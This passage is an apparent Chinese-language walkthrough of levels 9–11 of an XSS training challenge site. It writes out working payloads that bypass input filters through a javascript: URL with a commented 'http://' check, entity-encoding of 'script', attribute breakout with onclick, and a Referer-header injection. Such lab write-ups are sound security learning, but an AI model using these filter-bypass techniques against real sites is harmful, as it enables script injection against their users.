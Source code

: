 啊这，怎么提交发现都不会改变那个href。。。都是“您的链接不合法..”

那我们就手动改，直接改成javascript:alert(1)。点击，通过，我又好了

好吧，这题应该不是这样做的。

后台检查链接不合法，应该是检查`http://`字段

将其注释掉就好

payload：`javascript:alert(1) // http://`

发现还把script过滤了，改成实体

payload:   `java&#083;cript:alert(1) // http://`

## level10

发现有三个隐藏的参数

构造`https://xss.angelo.org.cn/level10.php?t_sort=1&t_link=2&t_history=3`

发现只有t_sort可以回显

```html
<input name="t_link"  value="" type="hidden">
<input name="t_history"  value="" type="hidden">
<input name="t_sort"  value="1" type="hidden">
```

发现 `<` `>`都被过滤了，使用onclick，还要将type改成可点击的

```
t_sort=" onclick="alert(1)" type=button
```

## level11

像第十题那样测试一下，发现t_sort可以用，但是过滤了`"`，无法闭合

靠t_sort必做不出来了，裂开

去找找其他的。。（我又想直接改html的源码了，，，直接过关）

猜测与t_ref有关，但是无法传输...

我好像从level10升到level11的时候看到这里是有东西的

ref...好熟悉的玩意儿

Referer？？？？

```http
GET /level11.php?keyword=good%20job! HTTP/1.1
Referer: "onclick="alert(1)" type="button"
```

## level12

看到这个
